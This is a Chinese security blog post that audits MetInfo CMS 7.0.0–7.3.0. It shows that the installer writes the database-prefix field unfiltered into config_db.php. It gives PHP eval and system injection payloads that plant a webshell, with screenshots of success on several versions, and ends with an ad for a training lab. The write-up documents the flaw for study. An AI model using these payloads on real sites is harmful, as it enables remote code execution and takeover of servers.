 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/n9g4zZs5a1H8qTbbwFBe5Q)

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LebHs2DGyKAEgZupcIbXWAgnQlIoLerewyAX3c3bLLg0iaTpJeUuGKrSWsicRvLMXwCIbhkUC8GqGibg/640?wx_fmt=gif)

**原创稿件征集**

  

邮箱：edu@antvsion.com

QQ：3200599554

黑客与极客相关，互联网安全领域里

的热点话题

漏洞、技术相关的调查或分析

稿件通过并发布还能收获

200-800 元不等的稿酬  

**Metinfo****cms 命令执行**

**前话：**

米拓企业建站系统是一款由长沙某公司自主研发的免费开源企业级 CMS，该系统拥有大量的用户使用，及对该款 cms 进行审计，如果利用 CNVD-2021-01930 进行进一步深入，其危害的严重性可想而知。

**审计过程：**

1.Index：拿到源码先看根目录的 index.php 看看都包含（加载）了什么文件。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7Isj3zI1zicYobcp0xWSOqxicjvfNCoSMicgkmdrk7XQ67eNF2ZwAbceEw/640?wx_fmt=png)  

2. 关键词：在 / app/system/entrance.php 看到了配置文件的定义，全局搜索这’PATH_CONFIG‘参数。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l74VjtmAlRb8qpc2BAa4aWbfvZ6ia8m70Oz9Qu60KG9GGUZI2qydmdUaw/640?wx_fmt=png)  

全局搜索并找到 install/index.php 文件下有这个参数，点击跟进查看。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l72icsoAK80755sKia9EYgXW156IqQib4ibZgJWsy9E22iazWPqzHSbQ5ic6uw/640?wx_fmt=png)  

在这个文件的 219 行有个是接收 db 数据库参数的方法。

官方说明 “$_M” 数组：  
https://doc.metinfo.cn/dev/basics/basics75.html

这里是接收 from 数据的 db_prefix 参数。也就是 “数据表前缀” 内容的值。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7NERtDD9ZldMDqAHyGJRGJ5NqUSRjE04Hibib9V09esIvZQwHnAsVEOBQ/640?wx_fmt=png)

往下发现是直接写入 tableper 然后赋值给 config 变量。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l79NmhAO9H2Tq6hvSLURarIb28CvicJYiaZqJ644vMarEkQSoR8u7mDuMQ/640?wx_fmt=png)

并在 264 行 fopen 打开 /config/config_db.php 进行没有安全过滤的字节流（fputs）方式的写入。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7AE4icjFx1YKOKYXUIqLia9A7ss5Q6jM8Mia60EHl2GYRibYo1UGrqwZ3ibA/640?wx_fmt=png)

影响版本：7.3.0- 7.0.0

一、进行 7.3.0 安装步骤，访问 http://127.0.0.1/install/index.php

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7bAK8BWxvfnibhy0eN4k7sA4dMw2dFOF9g7lqfVm4x6iaQKfUJHVF4MDQ/640?wx_fmt=png)  

二、选中传统安装继续下一步

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7KYbDNI2glZGQIJ3cHz2DvoRG9wts9sxZf1HUThkyKiawzJGCQLTty8g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7SCz4qGia7loK0UTMvYCoOInsUHZKLgRBZicvQkrMy55xl1RRsGcBjuhQ/640?wx_fmt=png)

三、数据库信息进行写 shell

代码执行 Payload："*/@eval($_GET['1']);/*

命令执行 Payload："*/@system($_GET['1']);/*

代码执行：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7s6kR2yAuRauyibibJoryIBIDpibqS5MLw4SdEumfc4S3ljlhedIibCNibug/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7pSC56S7hJsJic5yYXFIy8EpZtgkpCfibECz3V9aWExWyZjfIkoLoJMiaw/640?wx_fmt=png)  

点击保存进行下一步验证，出现这报错信息，可以查看 config\config_db.php 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7dW7CZSYs0pGA4Xd7RVALCW45picMzUwqvAvGzmKic8C3jicGQoC3VvKGg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7lShDp0kYmYB4RWE6UfUtxyN2vyfy5iawyT4GG7mVvd3dJyribF3bq4Mw/640?wx_fmt=png)成功写入

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7zcCLW2dZUezfWZCR5HNUs1ueyJ85sownJatXISicHgQ9icGQibNLHw9JA/640?wx_fmt=png)

命令执行：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7wibOJDEicLexBCiay2KeZO6VVrNtEaicFZ0JicrpNzYrsLG9MPFV8ic6nGKQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7dW7CZSYs0pGA4Xd7RVALCW45picMzUwqvAvGzmKic8C3jicGQoC3VvKGg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7wmkMPRFXjTYWeAnWREBlZJtKXrz15Ub9qGtNj2zPwbs1cyddUibbXzQ/640?wx_fmt=png)

7.0.0 版本：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7wicVdG0b3nYFFNwoUOurANHWaDsXwTicgW8eEMibIkp3WHOibWTkatwy6Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7kiadLucNlkCAAF0aEC8OG1EAp2SVBVDvXpuFz5vIrYIiayx7w6bCRfOQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l721lCu72BOBibe97Daia3SaMQXKF8ugIiabOAcy5WoYgiaDichwE1mD4B6ng/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7F18gjNM3qTxxibnpMTEWicCZt6y4uGpibEcDRw8Q4MpricYYJPuSlCWqGQ/640?wx_fmt=png)7.1.0 版本：

Payload："*/@eval($_GET['1']);@system($_GET['2']);/*

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l78mfcPnJHpEibxrWnia6w1rpI2bia61A3WOJN3xdHzr9S34FJtJgQffAIg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7qBTtxlbyCezRISxP1bgolnibfnibnyfzlppL1lom27AdqgUXYEp25SXw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l74Z7Bu7uBKfLic4q3eQVUeaKNlKic8X02zIC9VbGREEtEabWERudZefcA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l709GDRV3ArEsOB6IvAlvjyPKES1YLBIicK3qoHnFapOwc65reeynM1Aw/640?wx_fmt=png)7.2.0 版本：

Payload："*/@eval($_GET['1']);@system($_GET['2']);/*

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7BN7vSMuRicB65fre2rIyEE9I03WjN3kaiceobZjibuVS7dSUArAhvMQSA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7hLiaeAHshqhwD8ibicWy8KVgjKZlnFaN6BzqOd8SHzfAiaJNqQdj6QiaIbQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7FYn8z5TeyG7s6bfibxibfdoOucoxUia3Xmk4F2yGictCQ46iaEuPyfl8vNA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcLCcsNxcNEmQeAVbBNic8l7XjyOnsVbWfbyoV7WrEKpSvrut0z5dFHztx8MRA81TRNPNtoOibaNvzw/640?wx_fmt=png)

推荐实操：MetInfo SQL 注入   

https://www.hetianlab.com/expc.do?ec=ECID269f-6dc2-4412-bbad-a27109b207cf&pk_campaign=weixin-wemedia#stu    

通过该实验掌握 MetInfo SQL 注入漏洞的原因和利用方法，以及如何修复该漏洞。  

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LfbzQb75ZqoK2T2YO9XTQYD0aDUibvcxdbLRqzCwlkYcn0HppvXpZuenRzjX8ibhzcibJJge9Bw9xc8A/640?wx_fmt=gif)

戳

  

“阅读原文”

  

  

体验免费靶场！